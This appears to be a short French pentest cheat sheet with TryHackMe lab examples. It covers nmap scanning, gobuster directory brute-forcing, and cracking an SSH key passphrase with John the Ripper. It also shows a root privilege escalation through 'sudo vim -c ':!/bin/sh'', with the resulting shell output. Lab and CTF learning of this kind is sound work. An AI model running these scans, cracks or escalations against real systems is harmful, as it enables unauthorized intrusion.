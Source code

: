 # Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Outils

### NMAP

Suffixes : 
* -sV : affiche la version des services existants sur les ports
* -sC : affiche les scripts par défaut qui sont activés sur les ports

Scan simple et rapide : 
* sudo nmap -sS -T5 <ip>

Exemples : 
* N°1 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    ```$ sudo nmap -sS -Pn -sV 10.10.188.70```

* N°2 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    ```$ sudo nmap -sS -sC 10.10.188.70```

### Gobuster

Source : [gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

gobuster -h : ```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```

Exemples :
<br/>```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```

### John2ripper

```$ john-the-ripper --wordlist=Outils/wordlist/rockyou.txt id_rsa_basic_hash.txt ```

Permet de retrouver la passphrase pour se connecter en ssh à un user particulier.
## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>```$ sudo -l```
    <br/>ans : User mitch may run the following commands on Machine:
    <br/>ans : (root) NOPASSWD: /usr/bin/vim
    <br/>```$ sudo vim -c ':!/bin/sh'```
    <br/>```# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G```
    <br/>ans : /bin/sh: 1: ot found
    <br/>ans : /bin/sh: 1: 2R: not found
    <br/>```# whoami```
    <br/>ans : root



